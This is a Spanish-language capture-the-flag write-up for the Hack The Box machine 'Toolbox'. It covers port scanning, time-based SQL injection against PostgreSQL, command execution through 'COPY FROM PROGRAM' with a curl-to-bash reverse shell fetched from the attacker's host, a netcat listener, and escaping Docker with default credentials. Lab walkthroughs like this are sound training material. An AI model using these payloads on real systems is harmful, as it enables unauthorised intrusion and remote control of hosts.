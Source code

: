  https://app.hackthebox.com/machines/Toolbox
#win  
## Buscamos puertos abiertos
```
nmap -sS -p- -T5 --min-rate=5000 -vvv -Pn -n 10.10.10.236
```
![[Pasted image 20241016190058.png]]
## Reconocimiento de servicios
```
nmap -sCV -p21,22,135,139,443,445,5985,49665 10.10.10.236
```
![[Pasted image 20241016190334.png]]
Es windows
![[Pasted image 20241016191219.png]]
## Fuzz
Hay un archivo de docker en FTP
![[Pasted image 20241016191800.png]]
También Hay en el certificado SSL de la web un nombre de pagina, lo metemos en hosts
![[Pasted image 20241016192338.png]]
Tenemos un login
![[Pasted image 20241016192610.png]]
# Fase de ataque
## SQLI
Lanzamos una comilla simple
![[Pasted image 20241016192733.png]]
Nos da un error extraño y sabemos que es postgress
![[Pasted image 20241016192758.png]]
Con Burpsuite probamos si es vulnerable a SQLI
```
select pg_sleep(10);-- -
```
![[Pasted image 20241016193735.png]]
Si tarda 10 sec, es vulnerable.
### RCE 9.3
Creamos una tabla para ejecución de comandos
```
CREATE TABLE cmd_exec(cmd_output text);
```
![[Pasted image 20241016194336.png]]
Insertamos comandos para reverse shell
```
COPY cmd_exec FROM PROGRAM 'curl 10.10.14.16/shell.html|bash';
```
![[Pasted image 20241016195804.png]]
Creamos el archivo
![[Pasted image 20241016195450.png]]
Nos ponemos en escucha
```
nc -nlvp 443
```
![[Pasted image 20241016195906.png]]
[-]==pwned!==
## Ajustar terminal
```
script /dev/null -c bash
```
ctrl + z
```
stty raw -echo; fg
```
```
	reset xterm
```
```
export TERM=xterm
```
Ajustar proporciones
```
stty rows 44 columns 184
```
# Privilege Escalation
## Salir de Docker
Probamos las contraseña por defualt de docker-toolbox (docke : tcpuser)
![[Pasted image 20241016201903.png]]
Dentro de este sistema esta montado una estructura de windows en el directorio c/
Encontramos una clave privada de ssh.
![[Pasted image 20241016202325.png]]
![[Pasted image 20241016202850.png]]
![[Pasted image 20241016202903.png]]
[+] ==pwned!==